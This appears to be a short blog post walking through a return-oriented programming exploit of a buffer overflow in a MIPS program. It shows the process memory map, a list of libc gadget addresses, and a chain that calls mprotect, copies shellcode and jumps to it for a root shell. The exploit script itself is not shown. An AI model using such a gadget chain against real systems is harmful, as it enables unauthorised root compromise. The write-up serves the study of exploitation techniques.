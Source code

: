 
---
layout: post
title:  "ROP"
description: ROP with libc gadget
img: no image
date: 2018-06-09  +0200
---

**Condition**
1. Due to the BOF vulnerability, I am able to control $ra register.
2. There is no stack canary
3. DEP is enabled
4. No PIE option on code & DSO section

**Exploit Step**
First, I checked the libc address as follow;

{% highlight c %}
user$ cat /proc/1673/maps 
00400000-00402000 r-xp 00000000 08:01 320811     /home/user/exploit/vulnerable
00411000-00412000 rw-p 00001000 08:01 320811     /home/user/exploit/vulnerable
2aaa8000-2aacb000 r-xp 00000000 08:01 327714     /lib/ld-2.11.3.so
2aacb000-2aacd000 rw-p 00000000 00:00 0 
2aad1000-2aad2000 rw-p 00000000 00:00 0 
2aada000-2aadb000 r--p 00022000 08:01 327714     /lib/ld-2.11.3.so
2aadb000-2aadc000 rw-p 00023000 08:01 327714     /lib/ld-2.11.3.so
2aaed000-2ac52000 r-xp 00000000 08:01 327716     /lib/libc-2.11.3.so
2ac52000-2ac61000 ---p 00165000 08:01 327716     /lib/libc-2.11.3.so
2ac61000-2ac6a000 r--p 00164000 08:01 327716     /lib/libc-2.11.3.so
2ac6a000-2ac6c000 rw-p 0016d000 08:01 327716     /lib/libc-2.11.3.so
2ac6c000-2ac7f000 rw-p 00000000 00:00 0 
4aa0b000-4aa0d000 rw-p 00000000 00:00 0 
7ff1f000-7ff34000 rwxp 00000000 00:00 0          [stack]

{% endhighlight %}

We can see that the libc is in 2aaed000 address region.
Then, I searched the gadgets in libc and i used below gadgets.

{% highlight c %}
function call first
0x000f3c1c: move $s0, $v0; lw $ra, 0x1c($sp); move $v0, $zero; lw $s0, 0x18($sp); jr $ra;

function call second
0x0012877c: move $t9, $s0; lw $ra, 0x24($sp); lw $s2, 0x20($sp); lw $s1, 0x1c($sp); lw $s0, 0x18($sp); jr $t9;

Setting 1st argument
call twice
0x000e61ac: move $a0, $s0; lw $ra, 0x1c($sp); lw $s0, 0x18($sp); jr $ra;  

setting 2nd argument
call twice
0x0012f3f0: move $a1, $s0; lw $ra, 0x34($sp); lw $s1, 0x30($sp); lw $s0, 0x2c($sp); jr $ra;

setting 3rd argument
call twice
0x000d4a50: move $a2, $s1; lw $ra, 0x2c($sp); move $v0, $s1; lw $s1, 0x28($sp); lw $s0, 0x24($sp); jr $ra;

sp to a1
0x0013f63c: addiu $a1, $sp, 0x20; addiu $a0, $v0, 1; move $t9, $s1; jalr $t9; 

addiu $a0, $sp, 0x20;
0x000f8204: move $s0, $sp; jalr $t9;

0x000e9aa8: addiu $a1, $sp, 0x18; lw $ra, 0x24($sp); move $at, $at; jr $ra;
{% endhighlight %}

Using above gadgets, I implemented the exploit code which does following operation
1. call mprotect to disable DEP x region
2. call memcpy and copy shellcode to x region
3. jump to shellcode

I developed exploit code with python using above gadget, and successfully got root shell.
